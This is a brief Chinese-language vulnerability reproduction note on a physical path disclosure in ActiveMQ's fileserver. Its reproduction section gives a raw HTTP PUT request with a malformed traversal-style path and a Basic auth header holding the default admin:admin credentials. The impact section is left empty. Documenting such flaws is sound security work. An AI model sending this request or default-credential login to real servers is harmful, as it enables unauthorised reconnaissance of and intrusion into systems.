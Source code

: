 ```yaml
---
title: ActiveMQ物理路径泄漏漏洞
id: zhfly2798
---
```


# ActiveMQ物理路径泄漏漏洞

## 一、漏洞简介

ActiveMQ默认开启PUT请求，当开启PUT时，构造好Payload(即不存在的目录)，Response会返回相应的物理路径信息

## 二、漏洞影响

## 三、复现过程

```
Request Raw:
PUT /fileserver/a../..//.././ HTTP/1.1
Host: 192.168.197.25:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 4 
```